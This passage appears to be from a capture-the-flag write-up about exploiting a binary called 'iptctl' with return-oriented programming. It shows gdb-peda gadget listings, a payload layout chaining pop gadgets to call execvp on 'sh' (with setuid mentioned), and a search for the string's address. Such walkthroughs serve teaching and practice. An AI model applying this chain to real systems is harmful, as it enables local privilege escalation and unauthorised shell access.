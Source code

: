 #### ROP

I’m going to work with what are known as ROP gadgets - Little snips of code at addresses that aren’t changing that will do some work for me and then return. For simple gadgets, I can just type `rop` in `gdb`/`peda`, and it will return a list:

```

gdb-peda$ rop
Gadgets information                                                  
============================================================
0x00000000004007d9 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x0000000000400d58 : add al, ch ; ret 0xfff9
0x00000000004007df : add bl, dh ; ret
...[snip]...
0x0000000000400de3 : pop rdi ; ret
0x0000000000400de1 : pop rsi ; pop r15 ; ret
...[snip]...
Unique gadgets found: 93

```

I’ve truncated must of the output, but scrolling through these two in the middle jumped out as useful to me. The first will pop the top value on the stack (something I control) into RDI and then return. The second will pop into RSI, then pop into R15, and then return. As long as I don’t mind messing up R15 (which I don’t), this works.

I’ll make a payload that looks like this:

```

"allow" + "A"*29 + pop_rdi + sh_string + pop_rsi_r15 + null + anything + execvp_addr

```

When the function returns, it will go to the top value on the stack, my `pop_rdi` gadget. Now the top of the stack will be the address of the “sh” string. So as the pop\_rsi gadget runs, it will pop that address into RDI and return. When it returns, the address of the second gadget is atop the stack. Return is executed, going to that gadget, and leaving `value_for_rsi` at the top. After two pops, two more values I provide put into RSI and R15, and the address of `execvp` is on top of the stack when another return is reached. Now it runs and gives me a shell.

I’ll add a couple more gadgets in there in actuality to run `setuid` before running `execve`, but that illustrates the idea.

#### Payload

I just need the values for the registers. First, I want the string “sh” in rdi. Luckily, it exists inside the main binary, where the address will be static:

```

gdb-peda$ find "sh"                       
Searching for 'sh' in: None ranges                                             
Found 110 results, display max 110 items:                                       
    iptctl : 0x40046e --> 0x7063727473006873 ('sh')
    iptctl : 0x400e17 --> 0x62732f00776f6873 ('show')
    iptctl : 0x400e78 --> 0x203a29776f6873 ('show): ')
    iptctl : 0x400ea9 ("show IP\n")                    
    iptctl : 0x400ed1 ("show IP_ADDR\n")

```
